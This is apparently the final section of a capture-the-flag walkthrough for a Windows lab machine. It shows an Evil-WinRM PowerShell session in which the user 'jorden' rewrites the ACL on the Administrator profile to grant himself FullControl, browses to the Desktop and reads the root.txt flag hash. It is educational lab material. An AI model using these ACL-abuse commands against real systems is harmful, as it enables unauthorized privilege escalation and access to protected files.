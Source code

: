 Make sure not to have any spaces between words in your command!

### Root.txt

```text
*Evil-WinRM* PS C:\> $aclperms = $user, "FullControl", "ContainerInherit, ObjectInherit","None","Allow"
*Evil-WinRM* PS C:\> $aclrule = New-Object System.Security.AccessControl.FileSystemAccessRule $aclperms
*Evil-WinRM* PS C:\> $acl.AddAccessRule($aclrule)
*Evil-WinRM* PS C:\> Set-Acl -Path $folder -AclObject $acl
*Evil-WinRM* PS C:\> Get-Acl $folder | fl


Path   : Microsoft.PowerShell.Core\FileSystem::C:\Users\Administrator
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         MEGACORP\Administrator Allow  FullControl
         MEGACORP\jorden Allow  FullControl
Audit  :
Sddl   : O:SYG:SYD:PAI(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)(A;OICI;FA;;;S-1-5-21-3167813660-1240564177-918740779-3110)
*Evil-WinRM* PS C:\> cd C:\Users\Administrator
*Evil-WinRM* PS C:\Users\Administrator> ls


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/9/2020   3:18 AM                .vscode
d-r---         1/9/2020   2:45 PM                Contacts
d-r---         1/9/2020   4:43 PM                Desktop
d-r---         1/9/2020   4:35 PM                Documents
d-r---         1/9/2020   2:45 PM                Downloads
d-r---         1/9/2020   2:45 PM                Favorites
d-r---         1/9/2020   2:45 PM                Links
d-r---         1/9/2020   2:45 PM                Music
d-r---         1/9/2020   2:45 PM                Pictures
d-r---         1/9/2020   2:45 PM                Saved Games
d-r---         1/9/2020   2:45 PM                Searches
d-r---         1/9/2020   2:45 PM                Videos


*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/23/2020  10:08 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
fe237d93abd456b96a363e2ed34fb271
```
